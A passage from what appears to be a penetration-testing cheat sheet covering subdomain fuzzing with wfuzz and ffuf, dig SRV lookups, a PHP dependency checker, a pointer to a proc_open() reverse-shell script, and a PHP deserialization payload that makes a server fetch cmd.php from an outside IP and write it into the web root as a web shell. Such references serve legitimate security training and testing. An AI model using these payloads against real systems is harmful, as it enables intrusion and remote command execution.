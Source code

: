 **Using wfuzz**

```bash
wfuzz -c -u "http://<ADDRESS>" -w /usr/share/wordlists/subdomains-top1mil.txt -H "Host: FUZZ.<ADDRESS>"
```

Useful options
- `-H`: Used to set custom header
- `--hc/hl/hw/hh`: Hide responses with the specified code/lines/words/chars
- `--sc/sl/sw/sh`: Show responses with the specified code/lines/words/chars

**Using ffuf**

```bash
ffuf -w /usr/share/wordlists/subdomains-top1mil.txt -H "Host: FUZZ.<ADDRESS>" -u http://<ADDRESS>
```

Useful options
- `-H`: Used to set custom header
- `-fc`: Filter HTTP status codes from response

**Using dig**

```bash
dig srv <DOMAIN> @<IP>
# example
# dig srv toto.com @10.0.0.10
```

### PHP Vulnerabilities

#### Local PHP Security Checker

The Local PHP Security Checker is a command line tool that checks if your PHP application depends on PHP packages with known security vulnerabilities. It uses the [Security Advisories Database](https://github.com/FriendsOfPHP/security-advisories) behind the scenes.

> **Local PHP Security Checker:** https://github.com/fabpot/local-php-security-checker

#### proc_open() function

You can get a reverse shell from the `proc_open()` php function using [this script](./files/proc_open_RS.php).

When *PHP safe_mode* is enabled, you can bypass it using the `proc_open()` function.

> Reference: [disable_functions bypass - PHP safe_mode bypass via proc_open() and custom environment Exploit](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-safe_mode-bypass-via-proc_open-and-custom-environment-exploit)

#### Deserialization

##### Use of the save() function on a class

```php
<?php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = new AvatarInterface();
$payload->tmp = 'http://10.10.16.9:8000/cmd.php';
$payload->imgPath = '/var/www/html/cmd.php';
```